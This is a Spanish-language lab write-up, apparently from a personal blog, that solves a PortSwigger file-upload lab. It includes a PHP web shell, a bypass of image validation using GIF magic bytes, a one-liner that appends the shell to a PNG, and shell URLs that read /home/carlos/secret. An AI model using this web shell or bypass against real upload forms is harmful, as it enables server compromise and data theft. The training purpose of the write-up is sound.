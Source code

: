 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
description: "Laboratorio de Portswigger sobre File Upload Vulnerabilities"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Remote code execution via polyglot web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, aunque `verifica` el `contenido` del `archivo` para `confirmar` que es una imagen `genuina`, aún es posible cargar y `ejecutar código` del `lado` del `servidor`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-6/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-6/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-6/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-6/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Lab-6/image_5.png)

`Subimos` el `archivo` nuevamente pero `capturamos` la `petición` con `Burspuite`, he probado a subir un archivo con `extensión .png` y con `Content-type: image:/png` pero nos sigue dando el mismo `error`

![](/assets/img/File-Upload-Lab-6/image_6.png)

Esto puede ser debido a los `magic bytes` que tienen las imágenes [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures), en este caso he añadido `GIF8;` lo cual me ha permitido `bypassear` la `validación`

![](/assets/img/File-Upload-Lab-6/image_7.png)

Otra forma de hacerlo sería `descargar` una `imagen` e `introducir` la `web shell` dentro. Al `capturar` la `petición` con `Burpsuite` se cambiaría la `extensión` de archivo a `.php` y se `enviaría`

```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-6/image_8.png)

Si accedemos a `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que hemos logrado un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-6/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Lab-6/image_10.png)

`Obtenemos` el `contenido` del archivo secret `https://0aff00d7043967af80eda8750079008a.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-6/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Lab-6/image_12.png)
